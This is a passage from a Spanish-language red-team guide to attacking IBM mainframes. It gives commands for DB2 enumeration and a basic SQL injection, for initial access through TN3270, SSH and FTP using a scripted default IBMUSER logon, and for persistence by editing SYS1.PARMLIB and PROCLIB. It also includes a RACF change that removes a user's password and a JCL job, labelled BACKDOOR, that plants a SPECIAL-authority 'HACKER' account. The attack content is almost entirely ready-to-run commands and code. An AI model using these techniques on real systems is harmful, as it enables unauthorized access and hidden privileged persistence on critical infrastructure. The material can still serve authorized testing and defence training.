 #### DB2 Attacks
```bash
# Conexión a DB2
db2 connect to <database>

# Enumeración de tablas
db2 "SELECT * FROM SYSIBM.SYSTABLES"

# SQL Injection básico
db2 "SELECT * FROM <table> WHERE <column>='<value>' OR '1'='1'"
```

---

## 4. Técnicas de Red Team

### 4.1 Establecimiento de Acceso Inicial

#### Métodos de Acceso
```bash
# Acceso via TN3270
x3270 -script logon.script <target>

# Script de logon automatizado
echo "LOGON IBMUSER" > logon.script
echo "PASSWORD" >> logon.script

# Acceso via USS
ssh <userid>@<target>

# Acceso via FTP
ftp <target>
> user <userid>
> pass <password>
```

### 4.2 Persistence en Mainframes

#### Modificación de Procedimientos de Inicio
```bash
# Edición de SYS1.PARMLIB
EDIT 'SYS1.PARMLIB(IEASYS00)'

# Adición de procedimientos personalizados
EDIT 'SYS1.PROCLIB(MYJOB)'

# Modificación de RACF para persistence
ALTUSER <userid> NOPASSWORD
```

#### Backdoors en JCL
```jcl
//BACKDOOR JOB  CLASS=A,MSGCLASS=H,MSGLEVEL=(1,1)
//STEP1    EXEC PGM=IEBGENER
//SYSIN    DD   DUMMY
//SYSPRINT DD   SYSOUT=*
//SYSUT1   DD   *
ALTUSER HACKER PASSWORD(BACKDOOR) AUTHORITY(SPECIAL)
/*
//SYSUT2   DD   DSN=SYS1.PARMLIB(RACFCMDS),DISP=MOD
```
